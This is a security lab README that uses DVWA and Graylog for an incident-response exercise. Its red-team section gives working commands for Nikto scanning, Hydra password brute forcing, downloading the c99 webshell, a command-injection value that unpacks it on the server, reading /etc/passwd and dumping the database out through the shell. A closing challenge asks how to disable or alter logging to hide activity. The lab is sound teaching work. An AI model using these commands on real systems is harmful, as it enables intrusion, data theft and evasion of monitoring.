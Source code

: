 # Week 4 - AuditD and logging
This week we are using DVWA for our incident response demo again. DVWA provides a vulnerable webapp that is ready to be hacked out of the box. Graylog will act as our logging server.

## Presentation
AuditD and logging systems: https://docs.google.com/presentation/d/1HiLPQ6p8dZak0xOhoN66NFmos5l11Bwbkvl5hHuep7E/edit?usp=sharing

## Setup demo
### Init
0. Install docker and docker-compose

### Spin up demo
0. docker-compose up -d

### DVWA WebGUI setup
0. Browse to `http://dvwa.hackinglab.beer:8080` 
0. Login
    1. username: admin
    1. password: password
0. Select "DVWA security" on the left
0. Set the security level to "low"
0. Continue to red teaming section

### Graylog Webgui setup
0. Browse to `https://logging.hackinglab.beer` 
0. Login
    1. username: admin
    1. password: admin
0. Select "System" at the top then "Inputs"
0. Select "Beats" for input type and select "Launch new input"
    1. Select node
    1. Enter "Beats input" for title
    1. Select "save"

## Perform red teaming
### Nikto scanner
0. Spin up Kali Linux VM
0. Open terminal
0. `nikto -host dvwa.hackinglab.beer -port 8080`

### Hydra brute force
0. `hydra -l admin -P /usr/share/dirb/wordlists/small.txt dvwa.hackinglab.beer -s 8080 http-post-form "/dvwa/login.php:username=^USER^&password=^PASS^&Login=Login:Login failed" -V`

### Zip, upload and unzip c99.php
0. `wget https://raw.githubusercontent.com/tennc/webshell/master/php/PHPshell/c99/c99.php`
0. `gzip -f c99.php`
0. Browse http://dvwa.hackinglab.beer with CHROME and login
    1. User: admin
    1. Pass: password
0. Select "Upload" on the left
0. Select "Choose file", "c99.php.gz" then "Upload"
0. Select "Command injection" on the right
0. Enter `8.8.8.8; /bin/gunzip -v ../../hackable/uploads/c99.php` into "Enter ip address"
0. Browse to `http://dvwa.hackinglab.beer:8080/hackable/uploads/c99.php`

### Host situation awareness
0. Get current user: `whoami`
0. Get ip info: `ip a`
0. Get hostname: `hostname`
0. Get list of users: `cat /etc/passwd`
0. Get connection info: `ss -l -n -t`
0. Get process list: `ps aux`
0. Get known hosts: `arp -a`

### Dump database
0. `mysql -u root -e "show databases;"`
    1. There is no root password
0. `mysql -u root -e "use dvwa; show tables"`
0. `mysqldump -u root --database dvwa > dump.sql`
0. Use c99.php web shell to download dump

## Disable Graylog input
0. Browse to `https://logging.hackinglab.beer` 
0. Login
    1. username: admin
    1. password: admin
0. Select "System" at the top then "Inputs"
0. Select "Stop input" for "Beats" input

## Incident reponse demo
### Connecting to Graylog
Browse to `http://logging.hackinglab.beer` 
0. Login
    1. username: admin
    1. password: admin

### Understanding the machine
It is important to understand the machine you are investigating

0. What is the operating system(OS) of the attacked machine?
0. What is the kernel of the attacked machine?
0. What is the timezone of the attacked machine?
0. What is the IP address of the attacked machine?
0. What is the MAC address of the attacked machine?
0. What is the hostname of the attacked machine?
0. What network services are listening on the attcked machine? -- include ports
0. What users are on the attacked machine?

### Become the cyber detective
0. What are the version numbers of all the listening services?
0. Do the services have any known vulnerabilities? What sources/tools did you use?
0. Where are the web server logs located?
0. What is the diff between the error.log and access.log? What information do these logs provide?
0. What are the user permissions of the log files? Why does this matter?
0. What is the timezone and time format of the webservers logs? Why does this matter?
0. What is the hackers's IP address?
0. What is the hacker's user-agent?
0. What is the operating system(OS) of the hacker's machine?
0. What webshell did the attacker use? 
0. Where was that webshell uploaded to?
0. What commands/actions did the attacker use?

## IR challenge
0. Browse to `http://logging.hackinglab.beer` 
0. Login
    1. username: admin
    1. password: admin
0. Select "Dashboard" at the top
0. Select "Create Dashboard" 
    1. Enter a name
    1. Enter a description
    1. Select "Save"
0. Select your new dashboard
0. Create widgets to display:
    1. Histogram of log data
    1. Histogram of traffic
    1. Top 10 user-agents from web logs
    1. Top 10 operating systems from web logs
    1. Top 10 browsers from web logs
    1. Top 10 IP addresses from web logs
    1. Top 10 URL's visited from web logs
    1. Top 10 IP from SSH logs
    1. Widget of your choosing to display command injection

## Red team challenge
### Disable logging
0. Easy: Discover a way to disable the logging feature between DVWA and Graylog. 
0. Hard: Discover a way to modify the logging to hide your activities.
    1. The logging mechanism must still send logs

# Resources/Sources
* https://www.computersecuritystudent.com/SECURITY_TOOLS/DVWA/DVWAv107/lesson14/index.html
* http://docs.graylog.org/en/2.4/pages/installation/docker.html
* https://www.elastic.co/guide/en/elasticsearch/reference/current/docker.html
* https://hub.docker.com/r/graylog2/graylog/
